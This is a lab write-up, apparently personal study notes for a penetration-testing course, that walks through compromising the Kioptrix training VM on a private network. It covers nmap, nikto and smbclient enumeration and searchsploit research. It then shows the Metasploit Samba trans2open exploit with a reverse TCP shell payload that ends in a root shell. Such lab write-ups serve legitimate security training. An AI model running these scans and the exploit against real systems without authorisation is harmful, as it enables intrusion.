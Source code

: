 ```yaml
---
layout: default
title: Flow
parent: Kioptrix
grand_parent: TCM-Sec - PEH
permalink: /tcm-sec_PEH/kioptrix/flow
nav_order: 2
---
```



# Flow <!-- markdownlint-disable-line MD025 MD022 -->
{: .no_toc}

## Table of contents <!-- markdownlint-disable-line MD022 -->
{: .no_toc .text-delta}

- TOC
{:toc }

## Scanning & Enummeration

### NetDiscover

```console
sudo netdiscover -r 10.0.2.0/24
```

[NetDiscover results](../../assets/TCM-Sec/Kioptrix/NetDiscover.txt)

### NMap

``` console
sudo nmap -T4 -p- -A 10.0.2.4
```

[nmap tcp scan](../../assets/TCM-Sec/Kioptrix/nmap%20tcp.txt)  

```console
sudo nmap -T4 -sU 10.0.2.4 
```

[nmap upd scan](../../assets/TCM-Sec/Kioptrix/nmap%20udp.txt)

### Nikto

```console
nikto -h http://10.0.2.4
```

[nikto results](../../assets/TCM-Sec/Kioptrix/nikto.txt)

### DirBuster

- Use GET requests only
- Go Faster
- wordlist: "/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt"
  
![alt](../../assets/TCM-Sec/Kioptrix/dirBuster.png)

### Metaspliot

- search for "smb/smb_version"

``` console
msfconsole          // start metasploit
search smb_V        // search for a module to find smb versions
use 0               // use the found module
info                // get infos on how to use the module
set RHOST 10.0.2.4  // set the host (target)
run                 // run the module
```

![msfc 1](../../assets/TCM-Sec/Kioptrix/msf_01.png)
![msfc 2](../../assets/TCM-Sec/Kioptrix/msf_02.png)

### smbclient

List smb services

```console
smbclient -L \\\\10.0.2.4\\
```

### Flags  <!-- markdownlint-disable-line MD022 -->
{: .no_toc}

```console
-L : List services
```

### Findings  <!-- markdownlint-disable-line MD022 -->
{: .no_toc}

![smb 1](../../assets/TCM-Sec/Kioptrix/smb_1.png)

> 2 hares found!

```console
smbclient -L \\\\10.0.2.4\\ADMIN$
```

![smb 2](../../assets/TCM-Sec/Kioptrix/smb_2.png)

```console
smbclient -L \\\\10.0.2.4\\IPC$
```

> Sucess!!!

```console
ls
```

![smb 3](../../assets/TCM-Sec/Kioptrix/smb_3.png)

> Network access denied... damn

### ssh

```console
ssh 10.0.2.4
```

```console
Unable to negotiate with 10.0.2.4 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

```console
ssh 10.0.2.4 -oKexAlgorithms=+diffie-hellman-group1-sha1
```

```console
Unable to negotiate with 10.0.2.4 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
```

![alt](../../assets/TCM-Sec/Kioptrix/rJBwk0u.png)

> After fix

```console
The authenticity of host '10.0.2.4 (10.0.2.4)' can't be established.
RSA key fingerprint is SHA256:VDo/h/SG4A6H+WPH3LsQqw1jwjyseGYq9nLeRWPCY/A.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.4' (RSA) to the list of known hosts.
kali@10.0.2.4's password: 
```

> No banner with further infos, sadly

## Research

### google

- `Samba 2.2.1a exploit`
- `mod_ssl/2.8.4 exploit`

### searchspliot

```console
searchsploit Samba 2.2.1a 
```

```console
-------------------------------------------------------------- ------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ------------------------
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)  | osx/remote/9924.rb
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution             | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap Overflow                         | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                 | linux_x86/dos/36741.py
-------------------------------------------------------------- ------------------------
```

```console
searchsploit mod_ssl 2.8.4
```

```console
---------------------------------------------------------------------------- ----------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ----------------------
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow        | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)  | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)  | unix/remote/47080.c
---------------------------------------------------------------------------- ----------------------
```

## Exlpoit

### metasploit

- `search trans2opnen`
- `use xploit/linux/samba/trans2open`
- `set rhosts`
- `exploit`:

```console
[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] 10.0.2.4:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffbfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffafc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 1 closed.  Reason: Died
[*] 10.0.2.4:139 - Trying return address 0xbffff9fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 2 closed.  Reason: Died
[-] Meterpreter session 2 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff8fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 3 closed.  Reason: Died
[-] Meterpreter session 3 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff7fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 4 closed.  Reason: Died
[-] Meterpreter session 4 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff6fc...
^C[-] 10.0.2.4:139 - Exploit failed [user-interrupt]: Interrupt 
[-] run: Interrupted
```

- `set payload linux/x86/shell_reverse_tcp`
- `run`:

```console
[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] 10.0.2.4:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffbfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffafc...
[*] 10.0.2.4:139 - Trying return address 0xbffff9fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff8fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff7fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff6fc...
[*] Command shell session 5 opened (10.0.2.15:4444 -> 10.0.2.4:32868) at 2022-12-14 00:21:32 +0100

[*] Command shell session 6 opened (10.0.2.15:4444 -> 10.0.2.4:32869) at 2022-12-14 00:21:33 +0100
[*] Command shell session 7 opened (10.0.2.15:4444 -> 10.0.2.4:32870) at 2022-12-14 00:21:35 +0100
[*] Command shell session 8 opened (10.0.2.15:4444 -> 10.0.2.4:32871) at 2022-12-14 00:21:36 +0100

id
uid=0(root) gid=0(root) groups=99(nobody)
```

> WE GOT ROOT

---
